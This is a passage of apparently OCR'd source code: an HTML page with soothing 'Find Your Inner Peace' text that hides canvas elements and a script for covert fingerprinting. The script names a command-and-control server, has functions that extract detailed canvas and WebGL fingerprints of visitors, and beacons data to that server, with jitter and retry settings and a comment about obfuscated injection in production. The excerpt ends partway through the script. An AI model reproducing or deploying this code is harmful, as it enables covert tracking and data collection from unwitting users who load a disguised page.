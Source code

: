 ```html
    <p>Explore the vast expanse of thought, or simply rest your weary cursor. Your journey here is your own, unburdened and free.</p>
    <a href="#" class="button">Find Your Inner Peace</a>
</div>
<!-- Hidden elements for fingerprinting -->
<canvas id="raCanvasFp" class="hidden-element"></canvas>
<canvas id="raWebglFp" class="hidden-element"></canvas>
<div id="raFontDetect" class="hidden-element"></div>
<div id="raAdblockDetect" class="hidden-element"></div>
<script>
/* REPRESENTATIVE CODE: In production, this is dynamically obfuscated and injected by the OM. */
const OM_MATRIX_C2_URL = 'https://c2.operator-matrix.com'; // Injected by OM
const INTELLIGENCE_INGEST_ENDPOINT = OM_MATRIX_C2_URL + '/ingest/intelligence';
const ANOMALY_LOG_ENDPOINT = OM_MATRIX_C2_URL + '/log/anomaly';
const MAX_RETRANSMISSION_ATTEMPTS = 7;
const BASE_RETRANSMISSION_DELAY_MS = 2000;
const INITIAL_EXECUTION_JITTER_MS_MIN = 1500;
const INITIAL_EXECUTION_JITTER_MS_MAX = 6000;

function sG(obj, prop, def = null) { try { return obj && prop in obj ? obj[prop] : def; } catch (e) { rA(e, {src: 'util_sG', prop}); return def; } }
function rA(error, context = {}) { try { const anomaly = { ts: new Date().toISOString(), msg: error.message || error.toString(), stack: error.stack || 'No stack', ctx: context, agent_id: sG(window._om_ra_intel, 'agent_id') }; const blob = new Blob([JSON.stringify(anomaly)], { type: 'application/json' }); navigator.sendBeacon(ANOMALY_LOG_ENDPOINT, blob) || fetch(ANOMALY_LOG_ENDPOINT, { method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(anomaly), keepalive: true }).catch(() => {}); } catch (e) {} }

async function getCanvasEntropy() { try { const c = document.getElementById('raCanvasFp'); if (!c) return 'denied:no_canvas_elem'; c.width = 400; c.height = 100; const ctx = c.getContext('2d'); if (!ctx) return 'denied:no_canvas_ctx'; ctx.fillStyle = '#f0f0f0'; ctx.fillRect(0, 0, c.width, c.height); ctx.textBaseline = 'alphabetic'; ctx.fillStyle = '#ff2255'; ctx.font = '80px \'Times New Roman\', serif'; ctx.fillText('Phantom', 2, 65); ctx.fillStyle = '#006699'; ctx.font = '30px \'Arial\', sans-serif'; ctx.fillText('Strike™', 280, 50); const grad = ctx.createLinearGradient(0, 0, c.width, 0); grad.addColorStop(0, 'rgba(0,128,255,0.7)'); grad.addColorStop(1, 'rgba(255,0,0,0.7)'); ctx.fillStyle = grad; ctx.globalCompositeOperation = 'multiply'; ctx.fillRect(0, 0, c.width, c.height); const dataURI = c.toDataURL(); return dataURI.length > 10000 ? dataURI.substring(0, 10000) + '_TRUNC' : dataURI; } catch (e) { rA(e, {src: 'fp_canvas'}); return 'error:canvas_fail'; } }
async function getWebglDeepFeatures() { try { const c = document.getElementById('raWebglFp'); if (!c) return 'denied:no_webgl_elem'; let gl; try { gl = c.getContext('webgl', { antialias: true, preserveDrawingBuffer: false }) || c.getContext('experimental-webgl', { antialias: true, preserveDrawingBuffer: false }); } catch (e) { rA(e, {src: 'fp_webgl_ctx'}); return 'denied:no_webgl_ctx'; } if (!gl) return 'unsupported'; const features = {}; const dbg = gl.getExtension('WEBGL_debug_renderer_info'); features.vendor = dbg ? sG(gl, dbg.UNMASKED_VENDOR_WEBGL) : null; features.renderer = dbg ? sG(gl, dbg.UNMASKED_RENDERER_WEBGL) : null; features.version = gl.getParameter(gl.VERSION); features.shading_lang_version = gl.getParameter(gl.SHADING_LANGUAGE_VERSION); features.extensions = gl.getSupportedExtensions(); features.max_texture_size = gl.getParameter(gl.MAX_TEXTURE_SIZE); features.max_viewport_dims = gl.getParameter(gl.MAX_VIEWPORT_DIMS); features.rgba_bits = [gl.getParameter(gl.RED_BITS), gl.getParameter(gl.GREEN_BITS), gl.getParameter(gl.BLUE_BITS), gl.getParameter(gl.ALPHA_BITS)]; features.precision_vfloat = sG(gl.getShaderPrecisionFormat(gl.VERTEX_SHADER, gl.HIGH_FLOAT), 'precision'); features.precision_ffloat = sG(gl.getShaderPrecisionFormat(gl.FRAGMENT_SHADER, gl.HIGH_FLOAT), 'precision'); try { const vs = gl.createShader(gl.VERTEX_SHADER); gl.shaderSource(vs, 'void main() { gl_Position = vec4(0,0,0,1); }'); gl.compileShader(vs); const fs = gl.createShader(gl.FRAGMENT_SHADER); gl.shaderSource(fs, 'void main() { gl_FragColor = vec4(0.1234, 0.5678, 0.9012, 1.0); }'); gl.compileShader(fs); const p = gl.createProgram(); gl.attachShader(p, vs); gl.attachShader(p, fs); gl.linkProgram(p); gl.useProgram(p); gl.viewport(0, 0, 1, 1); gl.drawArrays(gl.POINTS, 0, 1); const pixels = new Uint8Array(4); gl.readPixels(0, 0, 1, 1, gl.RGBA, gl.UNSIGNED_BYTE, pixels); features.pixel_hash = pixels.join(','); } catch (e) { rA(e, {src: 'fp_webgl_render'}); features.render_error = e.message; } const ext = gl.getExtension('WEBGL_lose_context'); if (ext) ext.loseContext(); return features; } catch (e) { rA(e, {src: 'fp_webgl'}); return 'error:webgl_fail'; } }
```